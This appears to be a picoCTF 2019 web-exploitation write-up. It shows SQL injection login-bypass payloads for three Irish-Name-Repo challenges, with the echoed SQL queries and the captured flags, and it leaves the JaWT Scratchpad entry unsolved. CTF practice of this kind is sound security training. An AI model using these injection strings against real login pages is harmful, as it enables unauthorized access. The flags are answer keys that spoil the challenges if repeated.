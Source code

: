 
<h1 align="center">Web Exploitation</h1>


<h3>Irish-Name-Repo 1 - Points: 300</h3>
There is a website running at https://2019shell1.picoctf.com/problem/4162/ (link) or http://2019shell1.picoctf.com:4162. Do you think you can log us in? Try to see if you can login!

<p align="center"><img src="../Files/web1_2.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE

Username ===> ' or 1337=1337 --
Password ===> ' or 1337=1337 --

Response:
username: ' or 1337=1337 --
password: ' or 1337=1337 --
SQL query: SELECT * FROM users WHERE name='' or 1337=1337 --' AND password='' or 1337=1337 --'

Logged in!

Your flag is: picoCTF{s0m3_SQL_96ab211c}

Flag: picoCTF{s0m3_SQL_96ab211c}
```


<h3>Irish-Name-Repo 2 - Points: 350</h3>
There is a website running at https://2019shell1.picoctf.com/problem/14912/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:14912.

<p align="center"><img src="../Files/web1_2.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE

Username ===> ' or 1337=1337 --
Password ===> ' or 1337=1337 --

SQLi detected.

Username ===> admin' and 1337=1337 --
Password ===> admin' and 1337=1337 --

Response:
username: admin' and 1337=1337 --
password: admin' and 1337=1337 --
SQL query: SELECT * FROM users WHERE name='admin' and 1337=1337 --' AND password='admin' and 1337=1337 --'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_752d1173}

Flag: picoCTF{m0R3_SQL_plz_752d1173}
```


<h3>Irish-Name-Repo 3 - Points: 400</h3>
There is a secure website running at https://2019shell1.picoctf.com/problem/12271/ (link) or http://2019shell1.picoctf.com:12271. Try to see if you can login as admin!

<p align="center"><img src="../Files/web3.png"></img></p>

``` shell
On the Admin login page.
<input type="hidden" name="debug" value="0">
Pass to 1 !!! ===> VERBOSE

Password ===> ' be 1337=1337 --

Response:
password: ' be 1337=1337 --
SQL query: SELECT * FROM admin where password = '' or 1337=1337 --'

Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_ef7eac2f}

Flag: picoCTF{3v3n_m0r3_SQL_ef7eac2f}
```


<h3>JaWT Scratchpad - Points: 400</h3>
Check the admin scratchpad! https://2019shell1.picoctf.com/problem/45158/ or http://2019shell1.picoctf.com:45158

<p align="center"><img src="../Files/jawt.png"></img></p>

``` shell
Flag: picoCTF{}
```
